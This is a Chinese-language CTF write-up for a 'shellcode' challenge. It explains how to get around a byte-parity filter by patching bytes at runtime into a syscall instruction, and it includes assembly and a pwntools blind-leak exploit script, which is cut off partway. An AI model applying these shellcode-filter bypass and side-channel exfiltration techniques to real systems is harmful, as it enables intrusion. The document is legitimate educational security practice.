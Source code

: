 # shellcode

很有新意的一道shellcode，只允许ow，要求偶数位byte为偶数，奇数位byte位奇数，且奇数不能超过0x80  
显然需要构造一个盲注，但是限制如此大的情况下很难直接读入，并且最大的难点在于`syscall`的机器码为`0f 05`，连续的两个奇数  
于是我们的思路转变为：先构造一个无限制的读入，而要达成这个读入，需要在运行过程中将某个读入的字节码转换为`0f 05`  
我的策略是先找到一个能改目标字节，且满足条件的指令，我选择的是


```assembly
sub [rsi + 0x11], bx   //66 29 5e 11
```


围绕这条指令和预先寄存器的设置编写read的shellcode如下

```assembly
xor rax,rax 
pop rbx
pop rdx
pop rbx 
push 1
nop
pop rbx
add rsi, rbx
pop rcx 
sub [rsi + 0x11], bx|
```

rsi本身指向数组，至于这里为什么先＋1，读者可以自行构造理解  
然后读入我们的盲注shellcode，这里懒得算偏移喷射了一些nop，最后exp如下

```python
from pwn import*  
import os  
  
context(os = 'linux', arch = 'amd64', log_level = 'info', terminal = ['tmux', 'new-window'])  
  
def debug(cmd = ''):  
	if len(sys.argv)!=1:  
		return  
	cmd += """  
	b main  
	bp 0x13d1  
	"""  
	gdb.attach(p, cmd)  
	pause()  
    
if __name__ == '__main__':  
  flag = "flag{practice_handwrite_shellcode}"  
  #flag{praatice_hand_rite_rhdkgco?e}  
  count = 1  
  for i in range (len(flag),0x40):  
    left = 0  
    right = 127  
    while left < right:  
        mid = (left + right)>>1  
        global p  
        p = remote("chall.geekctf.geekcon.top", 40245)  
        # p = process("./shellcode")  
  
        # shellcode = '''xor rax,rax  
        # pop rbx   
        # pop rdx   
        # pop rbx  
        # push 1   
        # nop  
        # pop rbx   
```
